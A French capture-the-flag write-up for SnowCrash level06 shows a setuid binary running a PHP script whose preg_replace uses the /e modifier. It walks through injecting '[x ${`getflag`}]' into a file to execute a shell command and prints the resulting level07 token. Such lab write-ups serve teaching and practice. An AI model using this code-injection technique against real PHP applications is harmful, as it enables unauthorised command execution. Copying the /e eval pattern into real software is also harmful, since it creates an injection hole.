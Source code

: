 # 06 - PHP exploit: entrée utilisateur

- On se connecte en tant que level06.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```


- Un binaire ainsi qu'un script PHP sont présents, le binaire semble exécuter le script PHP.
```
level06@SnowCrash:~$ cat level06.php
```
```php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;
?>
```


- Le script effectue des appels à `preg_replace()` pour formater le contenu du fichier qui lui est donné en premier paramètre avant de l'afficher. La ligne qui nous intéresse est la suivante:
>`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`


- Cette ligne indique que si le contenu du fichier commence par `[x ` et se termine par `]`, tout ce qui se trouve entre ces limites peut être exécuté en tant que code PHP (en raison du `/e`). La sortie de cette exécution sera ensuite transmise en tant que paramètre à la fonction `y()`, du coup:
```
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/test
```

```
level06@SnowCrash:~$ cat /tmp/test
[x ${`getflag`}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

```
level06@SnowCrash:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```
